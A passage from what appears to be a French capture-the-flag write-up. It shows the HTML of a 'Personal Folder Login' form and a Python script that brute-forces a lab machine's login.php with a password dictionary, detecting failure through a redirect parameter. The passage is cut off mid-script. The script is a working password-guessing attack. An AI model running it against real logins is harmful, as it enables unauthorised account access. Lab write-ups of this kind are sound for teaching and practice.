et *personal.php* :  

```html
<HTML>
<FORM name="login" method="post" action="check.php">
<CENTER>
<H1> Personal Folder Login </H1>
<H3>
<STRONG>Username:</STRONG>
<INPUT name="username" id="username" type="text" value=""/>
<BR>
<BR>
<STRONG>Password:</STRONG>
<INPUT name="password" id="password" type="password" value=""/>
<BR>
<BR>
<INPUT name="mysubmit" id="mysubmit" type="submit" value="Login"/>
</H3>
</HTML>
```

dans un premier temps j'ai essayé de brute-forcer les deux formulaires de login (*login.php* et *check.php*) avec les scripts respectifs suivants :  

```python
import requests
import sys

if len(sys.argv) < 2:
  print "Usage: python {0} <user> <dict_file>".format(sys.argv[0])
  sys.exit()

hdrs = {
    "referer": "http://192.168.1.29/super_secret_login_path_muhahaha/",
    "content-type": "application/x-www-form-urlencoded"
    }
data = {
      "username": sys.argv[1],
      "password": "test",
      "mysubmit": "Login"
    }

fd = open(sys.argv[2])
i = 0

while True:
  word = fd.readline()
  if not word:
    break

  word = word.strip()
  data["password"] = word
  i = i + 1
  if i == 500:
      print "Testing", word
      i = 0

  sess = requests.session()
  r = sess.post("http://192.168.1.29/super_secret_login_path_muhahaha/login.php", data=data, headers=hdrs, allow_redirects=False)
  if "location" in r.headers:
    # en cas d'erreur le script nous redirige avec ce parametre
    if r.headers["location"].endswith("the_user_is_a_failure=1"):
      continue

```